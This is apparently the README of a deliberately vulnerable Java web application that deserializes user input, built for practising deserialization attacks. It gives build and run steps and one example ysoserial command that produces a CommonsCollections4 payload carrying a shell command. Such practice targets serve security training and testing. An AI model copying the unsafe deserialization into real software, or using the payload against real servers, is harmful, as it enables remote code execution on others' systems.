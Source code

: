 # java-deserialize-webapp

This application is attempts to java deserialize user provided input. commons-collections4:4.0 is on classpath and can be used for exploitation.

![deserialize](https://cloud.githubusercontent.com/assets/4956006/15084178/28306b00-13d2-11e6-97a5-e8c08f25150b.png)

## Building

(already done)

```sh
mvn clean package
```

## Running

By default, application binds to 0.0.0.0:8000 (to bind to localhost, edit src/main/java/hvqzao/java/deserialize/webapp/embedded/Server.java file and rebuild the project).

Linux:

```sh
git clone https://github.com/hvqzao/java-deserialize-webapp
cd java-deserialize-webapp
sh target/bin/webapp
```

Windows:

```sh
git clone https://github.com/hvqzao/java-deserialize-webapp
cd java-deserialize-webapp
start target/bin/webapp.bat
```

## Example attack

```sh
java -jar ysoserial-0.0.4-all.jar CommonsCollections4 'shell command...' | base64 | tr -d "\n"
```

## License

[MIT License](LICENSE)

